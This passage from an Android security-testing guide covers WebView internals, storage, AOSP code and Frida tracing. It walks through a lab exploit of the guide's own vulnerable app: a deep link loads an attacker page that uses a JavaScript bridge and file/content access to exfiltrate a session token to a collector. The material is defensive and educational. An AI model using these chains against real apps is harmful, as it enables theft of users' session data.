the hardened app was verified to produce no socket.

### 3.14 Cookies, storage and what a WebView leaves on disk

Everything a WebView persists lands in the app's private data directory, and all of it survives the
Activity:

| Path, relative to `/data/data/<pkg>/` | Contents |
|---|---|
| `app_webview/Cookies` | SQLite. The WebView's cookie jar — **separate from OkHttp's** |
| `app_webview/Local Storage/leveldb/` | `localStorage`, plain text values |
| `app_webview/Session Storage/` | `sessionStorage` |
| `app_webview/Cache/` and `cache/WebView/` | HTTP cache, including response bodies |
| `app_webview/Web Data` | Autofill and form data |
| `app_webview/databases/` | WebSQL, if `setDatabaseEnabled(true)` |
| `app_webview/GPUCache/` | Shader cache |

Two consequences that generate real findings.

**Authenticated content sits in the cache.** A WebView showing a bank statement writes the response
body into `app_webview/Cache/`. It is inside the app sandbox, so it is not readable by other apps on
a healthy device — but it survives logout, it is included in any backup the app permits
(`android:allowBackup`, see [32-Manifest](../32-Manifest/README.md)), and it is trivially readable on
a rooted or forensically-imaged device. `71-OWASP-Mobile` maps this to **MASVS-STORAGE-2**.

**Logout is routinely incomplete.** Clearing the app's own session does nothing to the WebView's
cookie jar. The complete sequence is:

```java
// on logout
CookieManager.getInstance().removeAllCookies(null);
CookieManager.getInstance().flush();
WebStorage.getInstance().deleteAllData();      // localStorage, WebSQL
webView.clearCache(true);
webView.clearHistory();
webView.clearFormData();
```

Apps ship one or two of those lines. Check for all six, and then check the files.

### 3.15 Version matrix

| Behaviour | Introduced / changed | Notes |
|---|---|---|
| `WebView` exists | API 1 | WebKit-based until 4.3 |
| `@JavascriptInterface` required | **API 17** (`targetSdkVersion` ≥ 17) | Closes the `getClass()` reflection chain (§3.7) |
| `allowFileAccessFromFileURLs`, `allowUniversalAccessFromFileURLs` default `false` | **API 16** (measured) | True by default at targetSdk 15 and below |
| Chromium replaces WebKit | Android 4.4 (API 19) | The whole engine changed |
| WebView becomes an updatable APK | Android 5.0 (API 21) | The Mainline story starts here |
| `setMixedContentMode` added; default becomes `NEVER_ALLOW` | **API 21** (measured) | `ALWAYS_ALLOW` at targetSdk 19 and below |
| `shouldOverrideUrlLoading(WebResourceRequest)` overload | API 24 | The `String` overload is deprecated |
| Multi-process renderer available | Android 7.0 (API 24) | `Multiprocess enabled: true` on this device |
| Safe Browsing in WebView | API 26 | Getter added; the default was `true` in every row measured |
| `setSafeBrowsingEnabled` getter | API 26 | Absent below; the probe prints `n/a` rather than guessing |
| `androidx.webkit` `WebViewAssetLoader`, `addWebMessageListener` | AndroidX, API 21+ | The supported replacements for `file://` and `addJavascriptInterface` |
| `setAllowFileAccess` default becomes `false` | **API 30** (measured) | The one you will actually meet |
| WebView is a Mainline module updated via Play | Android 10+ | Version 150.0.7871.181 on an Android 11 device (§3.1) |

Rows marked **(measured)** were produced by `examples/webview-probe/` on this device rather than read
from documentation.

---

## 4. Source Code Walkthrough (AOSP)

WebView's code is unusual in AOSP because it lives in two places that are built and shipped
separately. Knowing which is which saves a lot of fruitless searching.

### 4.1 The two directories

| Path | What is in it |
|---|---|
| `frameworks/base/core/java/android/webkit/` | The **public API**: `WebView`, `WebSettings`, `WebViewClient`, `WebChromeClient`, `SslErrorHandler`, `WebResourceRequest`, `CookieManager`, and the factory machinery. This is platform code, part of the OS image, and it is mostly a thin façade |
| `external/chromium-webview/` | The **prebuilt Chromium**. In AOSP this is a prebuilt APK per architecture, not source. The source lives in the Chromium project, under `android_webview/` |
| `frameworks/base/services/core/java/com/android/server/webkit/` | `WebViewUpdateService` and friends — the `system_server` side that decides which provider package is current |
| `frameworks/base/core/java/android/net/http/` | `SslError`, `SslCertificate` — the objects handed to `onReceivedSslError` |
| `frameworks/base/core/java/android/security/NetworkSecurityPolicy.java` | The cleartext policy Chromium calls through JNI (chapter 44 walks this in depth) |

The consequence: **you cannot read the implementation of `setJavaScriptEnabled` in AOSP.** You can
read its declaration — it is `public abstract void setJavaScriptEnabled(boolean flag);` on an
abstract class — and then the trail leaves the platform tree entirely.

### 4.2 `WebSettings` is abstract, and what that means for you

`frameworks/base/core/java/android/webkit/WebSettings.java` declares the whole surface as abstract
methods and the constants as fields:

```java
// frameworks/base/core/java/android/webkit/WebSettings.java  (abridged)
public abstract class WebSettings {

    /** Used with {@link #setMixedContentMode} */
    public static final int MIXED_CONTENT_ALWAYS_ALLOW = 0;
    public static final int MIXED_CONTENT_NEVER_ALLOW = 1;
    public static final int MIXED_CONTENT_COMPATIBILITY_MODE = 2;

    public abstract void setJavaScriptEnabled(boolean flag);
    public abstract void setAllowFileAccess(boolean allow);
    public abstract void setAllowContentAccess(boolean allow);
    public abstract void setAllowFileAccessFromFileURLs(boolean flag);
    public abstract void setAllowUniversalAccessFromFileURLs(boolean flag);
    public abstract void setMixedContentMode(int mode);
    ...
}
```

Three things follow directly, and each has bitten someone:

1. **The values `0`, `1`, `2` for `setMixedContentMode` are the constants.** In decompiled Smali you
   will see `const/4 v1, 0x0` followed by `invoke-virtual … setMixedContentMode(I)V`, and you have to
   know that `0` is `ALWAYS_ALLOW`. `scripts/webview-audit.py` prints the name alongside the number
   for exactly this reason.
2. **The defaults are not here.** No `= false` initialiser exists in this file to read. They are in
   `AwSettings`, in the provider APK, which is why §3.4 is a measurement rather than a quotation.
3. **Hooking `android.webkit.WebSettings` may hook nothing.** The concrete object is
   `ContentSettingsAdapter`, from a different ClassLoader (§4.5).

### 4.3 `WebViewClient.onReceivedSslError` — the base implementation is the security control

`frameworks/base/core/java/android/webkit/WebViewClient.java` contains the most important four lines
in this chapter:

```java
// frameworks/base/core/java/android/webkit/WebViewClient.java  (abridged)
public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error) {
    handler.cancel();
}
```

That is the whole default. It cancels, unconditionally. Every app that does not override this method
refuses every certificate error, correctly, for free.

The javadoc above it warns, in the platform's own words, that applications should not proceed and
that doing so may expose users to attack — a warning that has been in AOSP for many Android versions
and is ignored constantly.

`SslErrorHandler` in the same directory is likewise abstract:

```java
// frameworks/base/core/java/android/webkit/SslErrorHandler.java  (abridged)
public class SslErrorHandler extends Handler {
    public void proceed() {}
    public void cancel() {}
}
```

Both bodies are empty in the platform. The real implementation is the provider's subclass — measured
on this device as the obfuscated class **`WV.e53`**, which is exactly why a Frida hook on
`android.webkit.SslErrorHandler` catches nothing (§7.3).

### 4.4 The provider handshake: `WebViewFactory`

`frameworks/base/core/java/android/webkit/WebViewFactory.java` is where the platform reaches out of
itself and into the Mainline module:

```java
// frameworks/base/core/java/android/webkit/WebViewFactory.java  (abridged, illustrative of the flow)
static WebViewFactoryProvider getProvider() {
    synchronized (sProviderLock) {
        if (sProviderInstance != null) return sProviderInstance;

        // 1. ask WebViewUpdateService, in system_server, which package is current
        PackageInfo response = getUpdateService().waitForAndGetProvider().packageInfo;

        // 2. build a ClassLoader over that APK and load the entry point by name
        Class<WebViewFactoryProvider> providerClass = getProviderClass();

        // 3. instantiate through its (WebViewDelegate) constructor
        sProviderInstance = providerClass.getConstructor(WebViewDelegate.class)
                                         .newInstance(new WebViewDelegate());
        return sProviderInstance;
    }
}
```

The class name loaded in step 2 is `com.android.webview.chromium.WebViewChromiumFactoryProvider`.
Everything downstream — `WebViewChromium`, `ContentSettingsAdapter`, `AwSettings`, `AwContents`,
`libwebviewchromium.so` — is provider code.

`WebViewUpdateService` lives in
`frameworks/base/services/core/java/com/android/server/webkit/WebViewUpdateServiceImpl.java` and
implements the selection policy whose output you saw in §3.1: the ordered list of candidate
packages, the `Minimum WebView version code` check, the signature check, and the fallback logic.

### 4.5 The ClassLoader boundary, and the bug it caused in this chapter's own tooling

This is worth walking through completely because it is the single most confusing practical
consequence of the architecture, and the first version of `scripts/trace-webview.js` got it wrong.

The provider APK is loaded with its **own `ClassLoader`**. The app's default ClassLoader — the one
Frida's `Java.use` searches — knows nothing about it. So:

```javascript
// Frida — this FAILS for the concrete SslErrorHandler
Java.use('WV.e53');
// Error: java.lang.ClassNotFoundException: Didn't find class "WV.e53" on path: DexPathList[...]
```

The tracer's first version printed exactly that as a warning and silently gave up on reporting
`proceed()` versus `cancel()` — which is the one thing it exists to report. The fix is to build a
`ClassFactory` bound to the loader that actually defined the object:

```javascript
// scripts/trace-webview.js — the working version
var H = safeUse(clsName);                       // try the app's loader first
if (H === null) {
    var loader = handler.getClass().getClassLoader();   // the PROVIDER's loader
    H = Java.ClassFactory.get(loader).use(clsName);
}
```

Which produces, on the device:

```
[HOOK] resolved WV.e53 through the WebView provider ClassLoader
[HOOK] SslErrorHandler concrete class hooked: WV.e53
[SSL]   --> app called handler.proceed()   THE LOAD CONTINUES, certificate error and all
```

> **Under the Hood**
> The same boundary explains why the concrete settings class is
> `com.android.webview.chromium.ContentSettingsAdapter` and why hooking the abstract
> `android.webkit.WebSettings` still worked in the tracer: the platform's abstract class is in the
> boot classpath, visible to every loader, and the app's call site is resolved against it. Whether the
> hook fires depends on whether the call is dispatched virtually through the platform class or
> directly on the concrete one. Hook both; print which fired. Never assume.

### 4.6 Following `setJavaScriptEnabled` all the way down

The complete path, from the line a developer types to the bit that changes in native memory:

| Layer | Class / file | What happens |
|---|---|---|
| App | your `Activity` | `webView.getSettings().setJavaScriptEnabled(true)` |
| Platform API | `android/webkit/WebSettings.java` | abstract declaration only |
| Provider glue | `com.android.webview.chromium.ContentSettingsAdapter` | measured as the concrete class; forwards |
| Chromium Java | `org.chromium.android_webview.AwSettings` | holds the field; posts to the correct thread |
| JNI | `AwSettings` native methods | crosses into C++ |
| Chromium C++ | `android_webview/browser/aw_settings.cc` | writes into `content::WebPreferences` |
| Renderer | Blink | receives updated preferences over IPC; V8 is enabled or not |

Two details worth carrying away. First, **the setting is applied to the renderer over IPC** — it is
not a flag checked at script-execution time in the app process. Second, `AwSettings` reads the app's
`targetSdkVersion` **in its constructor** to choose defaults, which is precisely what
`examples/webview-probe/` exploits to measure the whole table from a single installed app: assign to
`ApplicationInfo.targetSdkVersion`, construct a new `WebView`, read the getters, repeat.

### 4.7 Following a certificate error all the way up

The reverse direction, from a TLS failure to app code:

| Layer | What happens |
|---|---|
| Chromium C++ net stack | `CertVerifier` fails to build a valid chain to a trusted root |
| `android_webview/browser/aw_contents_client_bridge.cc` | packages the error and the failing certificate |
| JNI | crosses into Java, still in the app process |
| `org.chromium.android_webview.AwContentsClientBridge` | constructs the callback |
| `com.android.webview.chromium.WebViewContentsClientAdapter` | builds an `android.net.http.SslError` and a concrete `SslErrorHandler` (measured as `WV.e53`) |
| **your `WebViewClient` subclass** | **`onReceivedSslError(view, handler, error)` — the app decides** |
| back down the same path | `proceed()` or `cancel()` returns to `AwContentsClientBridge`, which resumes or fails the request |

The point of laying it out is that the decision genuinely round-trips into app code and back. It is
not advisory. Whatever the app returns is what Chromium does.

### 4.8 Where the renderer service is declared

The `isolatedProcess` declaration in §3.3 is not in AOSP's `frameworks/base` — it is in the
**Chromium** tree, in `android_webview`'s manifest template, and it ends up in the provider APK. You
can read it back off a device rather than hunting for the source:

```bash
# host — dump the provider's manifest from the installed APK
adb shell pm path com.google.android.webview
adb pull /data/app/.../base.apk webview-provider.apk
python3 -B ../../10-APK-Internals/examples/parse_axml.py webview-provider.apk | grep -A4 SandboxedProcessService0
```

That is the honest way to cite it: read the artefact on the device rather than quote a line number
from a tree you have not checked out.

---

## 5. Security Perspective

### 5.1 How attackers abuse it

Ordered by how often they actually work, not by how impressive they sound.

| Technique | What the attacker needs | What they get |
|---|---|---|
| **Deep link into `loadUrl`** | An exported Activity with a `BROWSABLE` filter that passes its Intent data to a WebView | Chosen content inside the app's WebView. The foundation of everything below |
| **Bridge abuse** | The above, plus any `addJavascriptInterface` | Every annotated method, as the app's UID. §5.3 |
| **Certificate acceptance** | An `onReceivedSslError` that proceeds, plus a network position | Full read/write of the WebView's traffic with no valid certificate at all |
| **Mixed content injection** | `MIXED_CONTENT_ALWAYS_ALLOW`, a network position, one `http://` subresource | Script execution inside the `https://` origin |
| **Local file exfiltration** | A `file://` origin plus the file-URL relaxations | The app's private files, read by JavaScript. §3.8 |
| **`content://` from a `file://` page** | The above, plus `allowContentAccess` (default on) | Providers answering as the host app. §3.8 |
| **DevTools attach** | `setWebContentsDebuggingEnabled(true)` in a release build, plus local access | A full remote-debug session: DOM, script execution, and every bridge method. §3.13 |
| **`intent:` escalation from a nav gate** | A `shouldOverrideUrlLoading` that hands URLs to `Intent.parseUri` + `startActivity` | A web page choosing which app component to start. [26-Intent](../26-Intent/README.md) |
| **Renderer memory corruption** | A Chromium 0-day, plus a sandbox escape | Expensive, rare, and the one the isolated renderer (§3.3) is designed to make expensive |

Note the shape of that list. The top eight are **configuration**, reachable by anyone who can read an
APK and write JavaScript. The ninth is a nation-state budget. Spend your time accordingly.

### 5.2 How developers misuse it

Each of these is a pattern this repository has seen in real APKs, with why a reasonable engineer
writes it.

**"Our QA environment uses a self-signed certificate."** So `onReceivedSslError` gets an override
that proceeds, gated on nothing, because the gate was going to be added later. It ships. This is the
origin of the majority of `proceed()` calls in the wild.

**"The web team needs the session token to render the header."** So a bridge method returns it. The
web team is trusted; the *page* is what ends up untrusted, and only once someone finds the deep link.

**"Just make it work."** `setAllowUniversalAccessFromFileURLs(true)` appears in a commit that fixed a
local-asset loading problem, because it did fix it, and nobody asked what else it enabled.

**"We only load our own domain."** Enforced with `url.contains("ourdomain.com")`. §3.12 lists five
bypasses.

**"`setWebContentsDebuggingEnabled` helps us debug."** Committed unguarded, because in a debug build
it is invisible and correct.

**Two cookie jars, one logout.** The app clears its own session and leaves the WebView's cookies,
cache and `localStorage` in place. The next user of the device opens the help screen and is still
signed in. §3.14 has the six-line fix.

**A bridge in a third-party SDK.** The app author never wrote `addJavascriptInterface` and cannot
find it in their code, because an analytics, chat-support, captcha or ad SDK did. §5.4 measured
apps with 340 exposed bridge methods, essentially none of them written by the app team.

### 5.3 A vulnerability, end to end — measured, not narrated

This is the full chain, built as `examples/vulnerable-webview/`, run on the device, with the real
output at every step. Nothing here is illustrative.

**The app.** A WebView host with an exported `BROWSABLE` deep link, a Java bridge, permissive file
settings, and an `onReceivedSslError` that proceeds. Its network security config is *correct*:
`cleartextTrafficPermitted="false"` with a single scoped exception for the lab's loopback listener,
`<certificates src="system"/>`, no `<debug-overrides>`.

**Step 1 — static triage. Thirty seconds, before touching the device.**

```bash
# host
python3 -B scripts/webview-audit.py vulnerable-webview.apk
```

The auditor reports the settings the app applies, the settings it inherited, the bridge, and the
certificate handling — and flags `WV-001 [CRITICAL]` for an `onReceivedSslError` that calls
`proceed()`, never calls `cancel()`, and contains no branch.

**Step 2 — confirm the entry point.** The manifest carries a `BROWSABLE` filter on the scheme
`ch43vuln`, and the Activity's `onCreate` passes the Intent's `url` query parameter to `loadUrl`.

**Step 3 — serve an attacker page and hand it to the app.**

```bash
# host — the attacker's page and a collector, both on the host
cd examples/attacker-page && python3 -B -m http.server 8000
adb reverse tcp:8000 tcp:8000

# host — the deep link. Any web page or installed app could do this.
adb shell am start -a android.intent.action.VIEW \
    -d 'ch43vuln://open?url=http://127.0.0.1:8000/evil.html'
```

**Step 4 — what the app logged.**

```
CH43VULN: secret at /data/user/0/com.pentest.ch43.vuln/files/session.txt
CH43VULN: loading http://127.0.0.1:8000/evil.html
CH43VULN: bridge: getSessionToken()
CH43VULN: bridge: readFile(/data/data/com.pentest.ch43.vuln/files/session.txt)
CH43VULN: bridge: readFile(/proc/self/status)
CH43VULN: bridge: readContent(content://com.pentest.ch43.vuln.notes/note)
CH43VULN: provider openFile: content://com.pentest.ch43.vuln.notes/note
```

**Step 5 — what the collector received.**

```
origin    | http://127.0.0.1:8000 | http://127.0.0.1:8000/evil.html
token     | {"user":"lab@example.invalid",
             "session":"CH43{bridge_is_the_bug_not_the_annotation}","issued":"lab"}
content   | status=0 body=
file      | status=0 body=
```

The session token left the device. Note also what did **not** work: the direct `content://` and
`file://` XHRs returned status 0 from an `http://` origin (§3.8). The bridge did not care about the
origin; the scheme relaxations did.

**Step 6 — the same page from a `file://` origin.** With the HTML planted inside the app's own data
directory (modelling an attacker who has any local-write primitive):

```
origin    | file:// | file:///data/data/com.pentest.ch43.vuln/files/evil.html
file      | status=200 body={"user":"lab@example.invalid","session":"CH43{...}","issued":"lab"}
content   | status=200 body=private note, provider-backed:
                            CH43{content_scheme_resolves_as_the_host_app}
```

Now both work, with no bridge involved at all. The provider is **not exported**
(`android:exported="false"`), and a web page read it anyway, because the resolver saw the app asking.

**Step 7 — the certificate half, with the config still correct.** Point the same deep link at an
HTTPS server presenting a self-signed certificate from a CA in no store anywhere:

```
CH43VULN: loading https://127.0.0.1:8443/evil.html
CH43VULN: SSL error ignored: primaryError=3 url=https://127.0.0.1:8443/evil.html
CH43VULN: bridge: getSessionToken()
```

`primaryError=3` is `SSL_UNTRUSTED`. The page loaded, the bridge ran, the token left again. The
network security config was correct the entire time.

**Step 8 — prove the app's decision caused it.** Run the same navigation twice under
`scripts/trace-webview.js`, the second time with `forceCancel(true)`:

```
### PASS 1: tracing only
[SSL] onReceivedSslError ... primaryError=3  SSL_UNTRUSTED
[SSL]   --> app called handler.proceed()   THE LOAD CONTINUES, certificate error and all

### PASS 2: same certificate, forceCancel ON
[SSL] onReceivedSslError ... primaryError=3  SSL_UNTRUSTED
[SSL]   --> app called handler.proceed(), forceCancel is ON so cancel() is being sent instead
[SSL]   --> app called handler.cancel()    the load is refused
```

That pair is the evidence. Without it, "the page loaded" is consistent with the certificate having
been fine all along.

**A measured trap found while doing this.** The second pass had to use a **different hostname**
(`localhost` rather than `127.0.0.1`) to fire at all. Chromium **caches the proceed decision per
host**: after an app proceeds once, subsequent navigations to that host do not re-invoke
`onReceivedSslError`. Test once, then find you cannot reproduce it — and wrongly conclude you imagined
it. Change host, or clear the app's data, between attempts.

**The finding, written honestly.**

> **HIGH — the WebView accepts any certificate.** `VulnerableWebViewActivity$SloppyWebViewClient`
> overrides `onReceivedSslError` and calls `SslErrorHandler.proceed()` unconditionally. Verified at
> runtime: the app loaded `https://127.0.0.1:8443/evil.html` presenting a self-signed certificate
> (`primaryError=3`, `SSL_UNTRUSTED`) and executed its JavaScript. Control: with the same certificate
> and `proceed()` replaced by `cancel()` at runtime, the load was refused. **The app's network
> security config is correct and does not prevent this** — no element of that schema governs the
> failure path. Impact is bounded by what the WebView renders and by the bridge it exposes; here that
> is a `getSessionToken()` method, and the session token was exfiltrated to an attacker-chosen host.
> Remediation: delete the override. The `WebViewClient` base implementation cancels.

### 5.4 Measured: eleven real APKs from this device

`scripts/webview-audit.py` was run against eleven APKs pulled from the test device. **These are
detection results only — no third-party app was attacked, exercised or modified.**

The `com.vendor.*` packages are **pseudonyms for commercial applications**, stable across every
chapter that measured them; the counts beside them are the real measured values. The two
`com.mobilehackinglab.*` rows keep their real names because they are public training targets. See
[72-RealWorldFindings §4](../72-RealWorldFindings/references/README.md).

| Package | targetSdk | `onReceivedSslError` overrides | of those, call `proceed()` | bridge classes | `@JavascriptInterface` methods |
|---|---|---|---|---|---|
| `com.vendor.marketplace` | 30 | **16** | **3** | 20 | 214 |
| `com.vendor.filemanager` | 30 | **17** | 0 | 27 | 211 |
| `com.vendor.grocery` | 36 | 8 | 0 | 19 | 68 |
| `com.vendor.homeservices` | 35 | 3 | 0 | 22 | **340** |
| `com.vendor.hrapp` | 36 | 0 | 0 | 4 | 8 |
| `com.vendor.streaming` | 30 | 1 | 0 | 1 | 22 |
| `com.vendor.fileexplorer` | 29 | 1 | 0 | 0 | 0 |
| `com.mobilehackinglab.FridaThree` | 34 | 0 | 0 | 0 | 0 |
| `com.mobilehackinglab.fridaone` | 34 | 0 | 0 | 0 | 0 |
| `com.vendor.professionalnet` | 29 | 0 | 0 | 0 | 0 |
| `com.vendor.socialmedia` | 30 | 0 | 0 | 0 | 0 |
| **totals** | | **46** | **3** | **93** | **863** |

**Findings from the corpus, in order of what they teach.**

**Zero of forty-six overrides proceed unconditionally.** Not one `WV-001 [CRITICAL]`. Three call
`proceed()` and all three branch first. One is
`org.apache.cordova.engine.SystemWebViewClient` — Cordova's built-in client, named here because it is
open source and you can go and read the method: it gates on a documented preference, which
**adjudicates it**. The other two are a federated-identity SDK
(`com.vendor.identitysdk.WebUIActivity$WebUIWebViewClient`) and a payments SDK
(`com.vendor.paymentsdk.browser.PaymentWebViewClient`), and those two are **pseudonymised precisely
because they are not adjudicated**.

The auditor rates all three `WV-002 [HIGH]` and marks them **UNRESOLVED**, which is the correct
output: a branch might be a hand-rolled pin, or might be `if (BuildConfig.DEBUG)`. **Somebody has to
read the method.** A tool that guessed would be wrong either way, and this is the number to quote
when someone claims automated WebView scanning is solved.

> **Why one of those three keeps its name and two do not.** An unresolved HIGH is a *lead*, not a
> finding — this chapter's own §5.8 and chapter 52's measured **15-of-17 HIGH rejection rate** are
> the argument. Attaching a lead to a named vendor publishes the weakest possible claim about an
> identifiable third party, so the two closed-source SDKs are withheld. Cordova stays because its
> branch is public, readable and resolved in the sentence above — the disclosure risk is what the
> *unresolved* status creates, not the naming itself. When you write this up, apply the same test.

**The bridge surface is enormous and mostly third-party.** 863 exposed methods across 93 classes.
Reading the class names tells you who wrote them: `io.intercom.android.sdk.*` (chat support),
`com.google.android.recaptcha.internal.*` (captcha),
`com.pichillilorenzo.flutter_inappwebview_android.*` (a Flutter WebView plugin),
`com.stripe.hcaptcha.*`. The app teams did not write these and mostly do not know they exist. When
you report a bridge, name the SDK — "your chat SDK exposes a `handleAction(String)` bridge to every
page it renders" gets fixed; "you use `addJavascriptInterface`" does not.

**Twenty static `setWebContentsDebuggingEnabled` call sites, zero live sockets.** Across the corpus
the auditor found 20 call sites. On the device, with those apps installed,
`cat /proc/net/unix | grep devtools` returned **nothing**, as root, across all 17 abstract sockets
present. Every one of those calls is guarded. **This is the single best example in the chapter of why
a static hit is a lead and not a finding** — report those 20 without checking and 20 of your findings
are wrong.

**"No findings" is not "secure": the stub problem.** `com.vendor.socialmedia` produced a completely
empty report. Then look at what was scanned: its `base.apk` is 57 MB, and it contains **one
`classes.dex` of 72 KB**. Its `versionName` on the device is literally `stub (69.0.21)`. The real
application code is downloaded at runtime. Likewise `com.vendor.professionalnet` on this device is a 334 KB
`base.apk`. A static WebView audit of a loader stub is an audit of a loader stub.

```bash
# host — the check that takes ten seconds and saves a wrong conclusion
python3 -B -c "
import zipfile,sys,re
z=zipfile.ZipFile(sys.argv[1])
d=[n for n in z.namelist() if re.fullmatch(r'classes\d*\.dex',n)]
print(len(d),'dex,',sum(z.getinfo(n).file_size for n in d),'bytes of code')
" base.apk
```

If that prints a few tens of kilobytes for a large app, you are looking at a stub. Go and find the
splits, or the downloaded DEX at runtime, before writing anything.

**Settings, across the corpus.** `setAllowUniversalAccessFromFileURLs(true)`: zero apps. Explicit
`setAllowContentAccess(false)`: three (the streaming app, the grocery app, the marketplace app) — the rest inherit `true`.
`setMixedContentMode(MIXED_CONTENT_ALWAYS_ALLOW)`: one (`com.vendor.hrapp`, in a bundled chat-support SDK).
Seven of eleven ship a network security config, which is the reminder to run chapter 44's auditor
alongside this one.

**Values that are computed, not constant.** Four apps returned `RUNTIME` for most settings —
`com.vendor.filemanager`, `com.vendor.homeservices`, `com.vendor.marketplace`,
`com.vendor.grocery`. That means the boolean passed to the setter is not a literal in
the bytecode: it comes from a field, a remote config, a build flavour or a helper. The auditor says
`COMPUTED` rather than guessing, and `COMPUTED` is an instruction: go and measure it with
`trace-webview.js`. The marketplace app additionally showed `CONFLICT` on three settings — different call sites
pass different literals, so which WebView you are looking at decides the answer.

### 5.5 Measured: the OEM injects a bridge into every app

This one was found by the runtime tracer and is invisible to every static tool, including this
chapter's own auditor.

Tracing the lab app — which registers exactly one bridge — produced two:

```
[BRIDGE] addJavascriptInterface(com.pentest.ch43.vuln.LeakyBridge, "AndroidBridge")
    exposed to page script as window.AndroidBridge
    @JavascriptInterface methods (4): deviceInfo(0), getSessionToken(0), readContent(1), readFile(1)

[BRIDGE] addJavascriptInterface(miui.contentcatcher.sdk.WebViewDetector, "MiWebViewDetector")
    exposed to page script as window.MiWebViewDetector
    @JavascriptInterface methods (1): onCatch(1)
```

`miui.contentcatcher.sdk.WebViewDetector` is not in the lab app. It is not in any APK the auditor
scanned. It is **MIUI framework code, injected into the WebView of an app that never asked for it**,
exposing a global `MiWebViewDetector.onCatch(String)` to every page that app renders.

Three things to take from this.

**It confirms the runtime tracer earns its place.** No amount of APK analysis finds a bridge the OEM
adds at runtime.

**It is a reminder about the platform you are testing on.** Findings measured on a heavily-customised
OEM build are findings about that build. A stock device would not show this. Say which device.

**It is not automatically a vulnerability**, and this chapter is not going to claim it is. It is an
OEM content feature. What it *is* is an additional, undocumented, unremovable attack surface present
in every WebView on that device — and the honest write-up is exactly that sentence, with the
measurement attached and no speculation about what `onCatch` does. Investigating a vendor framework
class further would be attacking software this chapter did not build.

### 5.6 Real-world vulnerability classes

This repository does not invent CVE identifiers. What follows are **classes** of issue, each of which
has produced real advisories and bounty payouts, described so you can recognise one rather than cite
one you have not read.

| Class | Shape | Where it bites |
|---|---|---|
| **`addJavascriptInterface` pre-API-17 RCE** | Any bridge at all, `targetSdkVersion` ≤ 16, reflection to `Runtime.exec` | Historical, platform-level; documented in Android Security Bulletins. Still present in apps with a very low targetSdk |
| **Deep link to bridge** | `BROWSABLE` filter → `loadUrl(intent data)` → annotated bridge method | The commonest live WebView bounty finding, by a wide margin |
| **Shipped `proceed()`** | `onReceivedSslError` override that proceeds, in a release build | Historically endemic; several thousand apps were identified by large-scale studies of Play Store binaries |
| **Universal file access** | `setAllowUniversalAccessFromFileURLs(true)` + any local HTML write | Apps that render downloaded or cached HTML |
| **`content://` from a local page** | `allowContentAccess` (default) + `file://` origin + local write | §3.8; narrower than usually claimed, real when the chain holds |
| **Debuggable release** | `setWebContentsDebuggingEnabled(true)` unguarded | Ships more often in enterprise and white-label builds than in consumer apps |
| **Nav-gate `intent:` escalation** | `shouldOverrideUrlLoading` → `Intent.parseUri` → `startActivity` | Turns a page into an Intent sender inside the app |
| **Renderer memory corruption** | A Chromium bug, exploited from a page | Real, expensive, mitigated by the isolated renderer (§3.3). Track it by provider version, not OS version |
| **Third-party SDK bridge** | An SDK registers a bridge the app team never saw | §5.4 measured 863 exposed methods, overwhelmingly from SDKs |

### 5.7 OWASP MASVS and MASTG mapping

| Identifier | Requirement | What this chapter contributes |
|---|---|---|
| **MASVS-PLATFORM-2** | "WebViews are configured securely" | The whole of §3.4–§3.13, and `scripts/webview-audit.py` as the procedure |
| **MASVS-PLATFORM-1** | IPC mechanisms are used securely | The bridge as an IPC surface; the DevTools abstract socket (§3.13) |
| **MASVS-NETWORK-1** | Secure network traffic | `onReceivedSslError` (§3.10); mixed content (§3.5). Cleartext itself is chapter 44 |
| **MASVS-NETWORK-2** | Endpoint identity verification | §3.10 is the failure mode chapter 44's file cannot express |
| **MASVS-STORAGE-2** | No sensitive data in logs / unintended storage | The WebView's cache, cookie jar and `localStorage` (§3.14) |
| **MASVS-CODE-1** | App is signed and no debug settings ship | `setWebContentsDebuggingEnabled` in a release build |
| MASTG "Testing WebViews cleanup", "Testing JavaScript execution", "Testing WebView protocol handlers", "Determining whether native methods are exposed through WebViews" | | §7 is the dynamic procedure, §8 the static one |

[71-OWASP-Mobile](../71-OWASP-Mobile/README.md)'s cheatsheet lists five WebView rows and this chapter
supports all five. One qualification on its `setJavaScriptEnabled(true)` row: it should not be
reported as a PLATFORM-2 finding on its own (§3.5, and `WV-070`).

### 5.8 Honest severity

The table this chapter most wants a reader to internalise.

| Observation | Severity **by itself** | What raises it |
|---|---|---|
| `setJavaScriptEnabled(true)` | **INFO. Not a finding.** | Nothing. It is a precondition, reported as context inside another finding |
| `addJavascriptInterface` present | LOW–MEDIUM | JavaScript enabled → MEDIUM. Attacker-controllable content reaching the WebView → HIGH. A method that returns a secret or performs an action → HIGH, with the method named |
| `setAllowContentAccess` at its default `true` | INFO | JavaScript on → LOW. A `file://` origin the attacker can influence → MEDIUM. A provider holding something → HIGH |
| `setAllowFileAccess(true)` below targetSdk 30 | INFO (it is the default) | An explicit call at targetSdk ≥ 30 → LOW. A local HTML write primitive → MEDIUM |
| `setAllowFileAccessFromFileURLs(true)` | MEDIUM | A demonstrated local write → HIGH |
| `setAllowUniversalAccessFromFileURLs(true)` | **HIGH** | Reachability makes it CRITICAL; nothing makes it lower |
| `MIXED_CONTENT_ALWAYS_ALLOW` | MEDIUM | A permissive cleartext policy → HIGH. A strict one → LOW, latent |
| `onReceivedSslError` overridden, no `proceed()` | INFO | — |
| `onReceivedSslError` calls `proceed()` behind a branch | **HIGH, UNRESOLVED** | Reading the branch resolves it in either direction. Do the reading |
| `onReceivedSslError` proceeds unconditionally | **CRITICAL** | Nothing. This is transport security removed |
| `setWebContentsDebuggingEnabled(true)`, unguarded, release | **HIGH** | A live socket confirmed on the device → HIGH with proof. No socket → downgrade and say why |
| DOM storage enabled | INFO | Something sensitive found in the LevelDB → MEDIUM |
| WebView provider several versions behind | INFO | It is the *user's* Play Store state, not the app's defect. Report as an environment note |

> **Pentester's Note**
> The last row catches people out. "The device is running WebView 92 and there are known Chromium
> CVEs" is not a finding against the app — the app cannot choose the provider version. It is a finding
> against the *device*, and it belongs in a device-posture section, not in the app's report. The
> exception is an app that bundles its own WebView-like engine, which is a different animal entirely.

### 5.9 How pentesters test it — the procedure, in the order that wastes least time

1. **Read the APK first.** `python3 -B scripts/webview-audit.py base.apk`, and
   `python3 -B ../44-NetworkSecurityConfig/scripts/nsc-audit.py base.apk` alongside it. Two minutes,
   and it tells you what to look for on the device. Check the DEX size while you are there (§5.4) so
   you know whether you audited an app or a stub.
2. **Find the entry point.** Which exported components reach a WebView? Look for `BROWSABLE` filters
   and for non-constant `loadUrl` arguments — the auditor prints both and the intersection is
   `WV-060`.
